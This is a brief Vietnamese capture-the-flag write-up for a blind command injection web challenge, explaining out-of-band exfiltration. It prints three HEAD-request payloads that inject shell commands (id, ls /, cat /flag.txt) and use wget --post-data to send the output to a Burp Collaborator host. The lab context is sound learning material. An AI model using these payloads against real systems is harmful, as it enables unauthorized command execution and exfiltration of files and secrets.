

https://battle.cookiearena.org/challenges/web/blind-command-injection 

- Một chút về in-band và out-band:
  
In-Band là thực thi truyền hay gửi gói tin trong cùng lớp mạng hệ thống. Ví dụ ta thực thi một gói tin trên một webshell thì gói tin đó sẽ được trả về trên cùng web đó.
Out-Of-Band là thực thi truyền gói tin ra bên ngoài do khi ta thực hiện câu lệnh trên webshell nhưng khi trả về cùng hệ thống thì ta không xem được nên ta cần truyền nó sang một server web khác mới xem được 

- Đầu tiên ta sử dụng method options thì thấy only 3 methods : get, head, options.
ta thử với head trước

- Khi ta thử với whoami thì shell sẽ không thực thi nên ta sẽ sử dụng kĩ thuật OOB với curl và wget 

lưu ý : cú pháp $()  trong lệnh shell dùng để thực thi một lệnh và dùng để thay thế kết quả đầu ra của lệnh đó 

- Payload: HEAD /?cmd=wget+--post-data+"$(id)"+http://fzi2pj9bazxoqdvgpj5xu1y1psvjjahy6.oastify.com HTTP/1.1

- Sử dụng burp collaborator nhân đưuọc kết quả trên có truyền về giờ  ta cần tìm cách truyền file flag về
payload để liệt kê danh sách các file, được kết quả sau
  - payload: HEAD /?cmd=wget+--post-data+"$(ls+/)"+http://fzi2pj9bazxoqdvgpj5xu1y1psvjjahy6.oastify.com HTTP/1.1

- well ta thấy file flag.txt r =)))
thử tiếp với payload
    - payload: HEAD /?cmd=wget+--post-data+"$(cat+/flag.txt)"+http://fzi2pj9bazxoqdvgpj5xu1y1psvjjahy6.oastify.com HTTP/1.1

